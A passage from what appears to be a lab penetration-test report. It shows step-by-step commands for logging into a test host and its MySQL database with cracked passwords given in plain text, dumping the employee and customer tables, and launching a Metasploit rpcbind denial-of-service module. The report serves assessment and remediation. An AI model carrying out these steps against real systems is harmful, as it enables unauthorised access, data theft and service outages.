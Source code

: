The following procedure and commands were used to access MySQL database:
```
1.  SSH bcurtis@192.168.56.200

2.  Type in cracked password: motocross4ever

3.  Once in bcurtis@vagrant type in the following to access MySQL: mysql -h 127.0.0.1 -u root -p humbleify

4.  Use the cracked password: thetiffzhang

5.  Once in SQL type: SELECT \* FROM employees;  
    
6.  To reveal customer database use: SELECT \* FROM customers;
```
![|inline](https://s2.loli.net/2023/12/10/DyqVbcJfGdsmg1F.png)
![|inline](https://s2.loli.net/2023/12/10/RZKyzoH7uxnBwdl.png)

Having all this sensitive information available leaves the company liable for a massive data breach and is a major risk factor in maintaining customers safety. The severity of this cannot be understated as immediate remediations should be considered, refer to sub-section 5.2 and 5.4 for immediate remediation.

## 4.6. Open port 111 RPC Denial of Service attack

The open port in 111 runs a version of RPCbind 2-4 which was vulnerable to a denial-of-service attack, which allows an attacker to trigger large memory allocations on the target. The following is a description of the module that was found in the Metasploit database which exploits this vulnerability.

“This module exploits a vulnerability in certain versions of rpcbind, LIBTIRPC, and NTIRPC, allowing an attacker to trigger large (and never freed) memory allocations for XDR strings on the target.” (Rapid7, n.d)

**We performed this exploit by using these commands:**
```
1.  Open msfconsole

2.  Search rpcbind

3.  Use 0

4.  Show options

5.  Set rhost 192.168.56.200

6.  exploit
```
![|inline](https://s2.loli.net/2023/12/10/4t6gI5H13lDzwBS.png)
# V. Vulnerability Remediation
